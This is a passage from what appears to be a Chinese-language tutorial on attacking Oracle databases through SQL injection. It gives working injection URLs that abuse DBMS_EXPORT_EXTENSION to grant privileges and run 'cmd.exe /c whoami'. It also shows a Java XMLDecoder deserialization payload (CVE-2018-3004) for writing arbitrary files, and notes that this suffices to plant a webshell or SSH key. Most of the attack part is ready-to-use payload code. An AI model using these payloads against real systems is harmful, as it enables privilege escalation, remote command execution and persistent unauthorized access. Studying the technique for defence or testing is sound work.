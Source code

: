 5. 赋予函数执行权限
```sql
http://localhost:8080/oracleInject/index?username=admin' and (select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on cmd to public'''';END;'';END;--','SYS',0,'1',0) from dual) is not null--
```

6. 执行命令
```sql
http://localhost:8080/oracleInject/index?username=admin' and (select sys.cmd('cmd.exe /c whoami') from dual) is not null--
```
### DBMS_JVM_EXP_PERMS绕过JVM执行命令
移步：
1. https://www.notsosecure.com/hacking-oracle-11g/
2. https://www.exploit-db.com/exploits/33601

### xml反序列化绕过JVM执行命令 CVE-2018-3004
如果当前数据库用户具有connect和resource权限，则可以尝试使用反序列化来进行执行命令。Oracle Enterprise Edition 有一个嵌入数据库的Java虚拟机，而Oracle数据库则通过Java存储过程来支持Java的本地执行。
```sql
--create or replace function get_java_property(prop in varchar2) return varchar2
--   is language java name 'java.lang.System.getProperty(java.lang.String) return java.lang.String';
--/
select get_java_property('java.version') from dual;
```
![image](https://y4er.com/img/uploads/20200318214591.png)

**原作者写的是`java.name.System`，这里应该使用`java.lang.System`**

虽然你以为可以执行Java代码了，直接冲Runtime.getRuntime().exec()就完事了，但是实际上Oracle对权限进行了细致的划分，并不能直接冲。我们可以用一个xml的反序列化来冲。
```sql
BEGIN
 decodeme('<?xml version="1.0" encoding="UTF-8" ?>
<java version="1.4.0" class="java.beans.XMLDecoder"> 
<object class="java.io.FileWriter">
                      <string>c:\\app\\1.txt</string>
                      <boolean>True</boolean>
                      <void method="write">
                         <string>aaa</string>
                      </void>
                      <void method="close" />
                   </object>
</java>');
END;
/
```
试了试好像不能执行命令，但是可以写文件。写个shell还是绰绰有余的，当然你还可以写ssh公钥。
![image](https://y4er.com/img/uploads/20200318219965.png)
